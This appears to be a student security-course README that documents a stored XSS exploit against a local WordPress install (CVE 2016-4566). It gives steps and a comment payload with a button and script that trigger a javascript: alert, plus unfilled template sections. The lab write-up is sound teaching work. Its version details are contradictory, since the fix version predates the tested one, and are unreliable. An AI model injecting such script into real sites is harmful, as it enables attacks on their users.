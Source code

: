 # Codepathweek7
Exploit 1: “Upload Same Origin Method Execution”
- Summary: Attacking the system via a user clicking on a malicious comment that alerts the user.   
- Vulnerability types: XSS
- Tested in version: 4.5.1	
- Fixed in version: 4.2.8
- Steps to recreate: 
1.	Go to any post.
2.	Paste the following as a comment:
<button onclick="fire()">Click</button>
<script>
function fire() {
open('javascript:alert("exploit 1: Same Origin Method Execution")');
}
</script>
3.	Click on the button.
4.	Alert(1) will pop up.
-	Affected source code:
      http://localhost/wp-admin/comment.php?action=editcomment&c=9
-	CVE:   2016-4566








## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

